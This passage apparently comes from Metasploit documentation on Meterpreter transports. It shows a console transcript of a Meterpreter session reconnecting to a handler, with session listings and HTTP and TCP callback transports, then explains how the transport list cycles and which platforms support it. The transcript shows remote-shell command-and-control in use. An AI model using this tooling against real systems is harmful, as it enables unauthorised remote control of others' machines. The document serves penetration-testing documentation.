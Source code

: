 ```bash
+ -- --=[ 426 payloads - 37 encoders - 8 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

... snip ...

[*] 10.1.10.40:46457 (UUID: 8e97549ed2baf6a8/x86_64=2/windows=1/2015-06-02T09:56:05Z) Attaching orphaned/stageless session ...
[*] Meterpreter session 1 opened (10.1.10.40:5105 -> 10.1.10.40:46457) at 2015-06-02 21:03:55 +1000

msf exploit(handler) > sessions -l

Active sessions
===============

  Id  Type                   Information                           Connection
  --  ----                   -----------                           ----------
  1   meterpreter x86/win32  WIN-S45GUQ5KGVK\OJ @ WIN-S45GUQ5KGVK  10.1.10.40:5105 -> 10.1.10.40:46457 (10.1.10.35)

msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > transport list
Session Expiry  : @ 2015-06-09 19:56:05

    Curr  URL                                                                                                    Comms T/O  Retry Total  Retry Wait
    ----  ---                                                                                                    ---------  -----------  ----------
    *     http://10.1.10.40:5105/jpdUntK69qiVKZQrwETonAkuobdXaVJovSXlqkvd7s5WB58Xbc3fNoZ5Cld4kAfVJgbVFsgvSpH_N/  100000     50000        2500
          tcp://10.1.10.40:5005                                                                                  300        3600         10
          tcp://10.1.10.40:6000                                                                                  300        3600         10
```

The session is back up and running as if nothing had gone wrong.

In the case where Meterpreter is configured with only a single transport mechanism, this process still takes place. Meterpreter's transport list implementation is a cyclic linked-list, and once the end of the list has been reached, it simply starts from the beginning again. This means that if there's a list of one transport then Meterpreter will continually attempt to use that one transport until the session expires. This works for both `TCP` and `HTTP/S`.

For important detail on network resiliency, please see the [[reliable network communication documentation|./Meterpreter-Reliable-Network-Communication.md]]

## Supported Meterpreters

The following Meterpreter implementations currently support the transport commands:

 * Windows x86
 * Windows x64
 * POSIX x86
 * Android
 * Java
 * Python
